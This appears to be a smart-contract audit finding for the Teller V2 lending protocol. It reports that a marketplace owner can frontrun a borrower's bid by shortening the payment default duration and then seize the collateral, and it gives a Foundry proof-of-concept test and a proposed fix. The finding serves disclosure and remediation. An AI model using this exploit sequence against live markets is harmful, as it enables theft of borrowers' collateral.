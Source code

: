 juancito

high

# Marketplaces owners can frontrun `submitBid` to steal collateral by modifying market parameters

## Summary

`TellerV2::submitBid()` is vulnerable to frontrunning from marketplace owners. By modifying some parameters just before the borrower transaction they are able to perform different attacks. For example modifying the result of `getPaymentDefaultDuration()`. 

This leads to loan payment durations being too short, and making it possible to accept a bid and seize the collateral almost instantly.

Submitting this as an important attack vector mentioned in the `README.md` that should not be possible to execute:

> Market owners should NOT be able to race-condition attack borrowers or lenders by changing market settings while bids are being submitted or accepted (while tx are in mempool). Care has been taken to ensure that this is not possible...

## Vulnerability Detail

```solidity
    bidDefaultDuration[bidId] = marketRegistry.getPaymentDefaultDuration(
        _marketplaceId
    );
```

## Proof of Concept

Add this test to `packages/contracts/tests/TellerV2/TellerV2_Test.sol` and run `forge test -m "test_marketplace_frontrun_exploit"`:

```solidity
function test_marketplace_frontrun_exploit() public {
    address payable marketRegistryAddr = payable(address(tellerV2.marketRegistry()));
    MarketRegistry marketRegistry = MarketRegistry(marketRegistryAddr);

    // Malicious market owner sees that a borrower is placing a bid and frontruns them
    // Sets the minimum payment duration possible which is 1
    vm.prank(address(marketOwner));
    marketRegistry.setPaymentDefaultDuration(marketId1, 1);

    // Submit bid as borrower
    uint256 bidId = submitCollateralBid();
    
    // Simulate the marketplace owner waiting for the next block
    // Calculation is done with block.timestamp
    vm.warp(100);

    // The marketplace owner uses their "lender" account
    // Verify its balance before the attack
    assertEq(wethMock.balanceOf(address(lender)), 500000);

    // The "lender" accepts the bid
    acceptBid(bidId);

    // We have to wait at least another block because of the minimum payment duration
    vm.warp(200);

    // The "lender" can seize the collateral
    vm.prank(address(lender));
    collateralManager.withdraw(bidId);

    // The marketplace owner through steals the collateral through his "lender" account
    assertEq(wethMock.balanceOf(address(lender)), 500010);
}
```

## Impact

Lenders are able to instantly seize collateral from borrowers. The attack makes economically sense as loans should be overcollateralized.

Other attacks should be possible by changing other market parameters.

## Code Snippet

https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/contracts/TellerV2.sol#L376-L378

## Tool used

Manual Review

## Recommendation

A possible solution is already mentioned in the `README.md`, which was not implemented as the attacked was not proved to be possible. But given the POC, it would make sense to implement it:

> The best way to defend against this is to allow borrowers and lenders to specify such loan parameters in their TX such that they are explicitly consenting to them in the tx and then reverting if the market settings conflict with those tx arguments.

My suggestion is to hash the marketplace values and compare them on the `_submitBid` function:

```diff
    function _submitBid(
+       bytes32 _marketHash,
        address _lendingToken,
        uint256 _marketplaceId,
        uint256 _principal,
        uint32 _duration,
        uint16 _APR,
        string calldata _metadataURI,
        address _receiver
    ) internal virtual returns (uint256 bidId_) {
+       bytes32 marketHash = ... // Calculate current market hash from MarketRegistry values
+       require(marketHash == _marketHash, "Hashes must be the same");
```